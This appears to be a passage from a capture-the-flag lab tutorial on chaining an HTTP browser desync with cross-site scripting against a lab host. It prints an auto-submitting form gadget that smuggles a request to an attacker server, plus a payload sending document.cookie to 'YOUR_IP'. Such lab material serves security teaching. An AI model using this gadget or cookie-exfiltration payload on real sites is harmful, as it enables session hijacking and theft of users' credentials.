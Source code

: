 # HTTP Browser Desync Exploit Chaining XSS

Based on the considerations outlined in previous tasks, one potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim.

We can use the following gadget and deliver it to abuse any component of the web application that allows reflecting text and probably be visited by a user:

```html
<form id="btn" action="http://challenge.thm/" method="POST" enctype="text/plain">
    <textarea name="GET http://YOUR_IP HTTP/1.1
    AAA: A">placeholder1</textarea>
    <button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```

We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request. Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

To do so, we can set up a rogue server by serving a route with a malicious payload like fetch('http://YOUR_IP/' + document.cookie);